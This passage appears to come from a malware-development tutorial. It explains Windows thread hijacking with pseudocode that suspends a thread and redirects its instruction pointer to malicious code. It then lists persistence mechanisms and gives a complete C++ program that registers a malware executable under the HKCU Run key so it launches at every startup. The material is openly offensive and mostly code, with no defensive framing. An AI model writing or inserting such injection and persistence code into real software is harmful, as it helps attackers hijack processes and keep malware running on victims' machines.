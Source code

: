 
#### Thread Hijacking
Thread hijacking involves taking control of a legitimate thread in a running process and redirecting its execution flow to malicious code. This can be achieved by suspending a thread, modifying its context to point to malicious code, and then resuming it.

Steps for Thread Hijacking:
1. Open the target process and obtain the thread handle using `OpenThread`.
2. Suspend the thread using `SuspendThread`.
3. Modify the thread’s context (instruction pointer) to point to your malicious code using `SetThreadContext`.
4. Resume the thread using `ResumeThread`.

Thread Hijacking Example Outline:
```cpp
// Pseudocode for thread hijacking
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, targetThreadID);
SuspendThread(hThread);

CONTEXT context;
context.ContextFlags = CONTEXT_FULL;
GetThreadContext(hThread, &context);

// Modify the instruction pointer (EIP/RIP) to point to malicious code
context.Eip = (DWORD_PTR)maliciousCodeEntryPoint;

SetThreadContext(hThread, &context);
ResumeThread(hThread);
```

# Persistence Mechanisms
Malware often uses persistence mechanisms to survive system reboots or ensure it runs each time the system starts. This can be done through:
- Registry modifications: Add an entry to the registry to automatically launch the malware at startup.
- Scheduled tasks: Schedule the malware to run at regular intervals.
- Service creation: Create a Windows service to ensure that the malware runs in the background.

#### Registry Persistence Example (C++)
```cpp
#include <windows.h>
#include <iostream>

int main() {
    HKEY hKey;
    const char* regPath = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";
    const char* malwarePath = "C:\\path\\to\\malware.exe";

    // Step 1: Open the registry key
    if (RegOpenKeyExA(HKEY_CURRENT_USER, regPath, 0, KEY_WRITE, &hKey) == ERROR_SUCCESS) {
        // Step 2: Set the value to point to the malware executable
        RegSetValueExA(hKey, "MalwareName", 0, REG_SZ, (const BYTE*)malwarePath, strlen(malwarePath) + 1);

        std::cout << "Persistence added to registry." << std::endl;
    } else {
        std::cerr << "Failed to open registry key." << std::endl;
    }

    RegCloseKey(hKey);
    return 0;
}
```
